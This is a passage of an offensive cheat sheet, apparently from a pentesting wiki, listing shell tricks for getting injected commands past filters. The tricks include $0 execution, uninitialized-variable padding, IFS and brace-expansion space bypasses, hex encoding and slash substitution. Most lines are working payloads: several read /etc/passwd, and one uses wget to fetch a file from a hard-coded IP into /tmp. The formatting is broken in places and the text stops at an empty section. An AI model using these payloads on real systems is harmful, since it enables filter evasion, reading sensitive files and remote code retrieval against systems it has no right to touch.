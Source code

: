 ```
# Execution through $0
echo whoami|$0

# Uninitialized variables: A uninitialized variable equals to null (nothing)
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters

# New lines
p\
i\
n\
g # These 4 lines will equal to ping

# Fake commands
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`ui # Equals to whoami but 5 errors trying to execute "u" are shown

# Concatenation of strings using history
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```
```
### Bypass forbidden spaces

```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test

# IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd # Using cat twice
#  Other way, just change each space for ${IFS}
echo${IFS}test

# Using hex format
X=$'cat\x20/etc/passwd'&&$X

# Using tabs
echo "ls\x09-l" | bash

# Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```
```
### Bypass backslash and slash

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
```
### Bypass pipes

```bash
```